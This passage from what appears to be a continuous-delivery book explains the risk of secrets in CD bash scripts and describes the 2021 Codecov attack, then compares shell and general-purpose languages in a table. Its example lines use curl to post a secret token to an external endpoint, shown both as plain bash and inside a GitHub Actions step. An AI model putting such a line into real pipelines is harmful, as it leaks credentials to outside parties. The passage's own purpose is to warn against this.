 The prevalence of bash scripts in CD systems means that it is very common in CD tasks and pipelines to define environment variables for important information required for task execution, including sensitive data, like authentication information. For example, imagine that a bash script is provided with an environment variable that contains a sensitive token:

```
MY_SECRET_TOKEN=qwerty012345qwerty012345qwerty012345
```

The bash script is completely free to do whatever it wants with that token—for example, writing it to an external endpoint:

```
curl -d $MY_SECRET_TOKEN https://some-endpoint
```

CD systems like GitHub Actions provide additional mechanisms for dealing with secrets; for example, a common pattern is to have GitHub Actions store a secret and then in your workflow, you can bind that secret to an environment variable. The equivalent of the preceding code could be the following:

```
- name: Use my secret token
 env:
   MY_SECRET_TOKEN: ${{ secrets.MY_SECRET_TOKEN }}
 run: |
   curl -d $MY_SECRET_TOKEN https://some-endpoint
```

The danger is that if a malicious actor is able to change your scripts, they have complete freedom to access these environment variables (and anything else available on the operating system) and do whatever they want with them.

One famous example of this is the April 2021 attack on the code coverage tool, Codecov. An actor was able to get access to and modify the bash script that Codecov provided for sending code coverage reports. This bash script was imported and used across all CD pipelines that used Codecov for coverage reporting. All the actor had to do was add one line of bash that uploaded all of the environment variables available in the context of the script to a remote endpoint. And since it is so common to provide sensitive information to scripts via environment variables, this potentially provided the actor with access to many systems, and users of Codecov had to scramble to re-roll any credentials that might have been exposed. (For more information on the attack, see the Codecov website at https://about.codecov.io/security-update/.)

This gives us a good reason to be careful about the scripts we write in our CD pipelines. Think about who can modify the script and what they might have access to if they do.

## [](/book/grokking-continuous-delivery/chapter-12/)[](/book/grokking-continuous-delivery/chapter-12/)Shell scripting vs. general-purpose languages[](/book/grokking-continuous-delivery/chapter-12/)

| **Featur**. | **Shell scripting language**. | **General-purpose language**. |
| --- | --- | --- |
| **Basic flow[](/book/grokking-continuous-delivery/chapter-12/)[](/book/grokking-continuous-delivery/chapter-12/)[](/book/grokking-continuous-delivery/chapter-12/)[](/book/grokking-continuous-delivery/chapter-12/) control (e.g., if statements, for loops, functions**. | Yes. They support flow-control features; functions in bash are not as reusable as in they are in general-purpose languages. | Yes |
| **Multiple data type**. | Often limited. In bash theoretically supports strings, arrays, and integers, but these are all stored as strings. | Yes |
| **Invoking other program**. | Yes. Easily, with support for chaining input and output between programs. | Yes, but not as easily. This usually involves calling out to a library that will spawn the new program’s process and handle communication with it. |
| **Test**. | No. Not well supported as part of the language itself. | Yes |
| **Debuggin**. | Often limited. Usually tools supporting debugging scripts are limited. | Yes. Supporting tools are often created for general-purpose language debugging, e.g., IDE support for setting breakpoints. |
| **Versioned libraries and package**. | No | Yes |
| **IDE syntax suppor**. | Yes | Yes |
| **Mitigating malicious modification (see previous page**. | No. It takes ony one line of bash to exfiltrate a wealth of data. | No. General-purpose languages can also be used to exfiltrate sensitive data. However, chances are higher that good practices (e.g., review, well-factored code) will be followed, potentially decreasing the risk. |
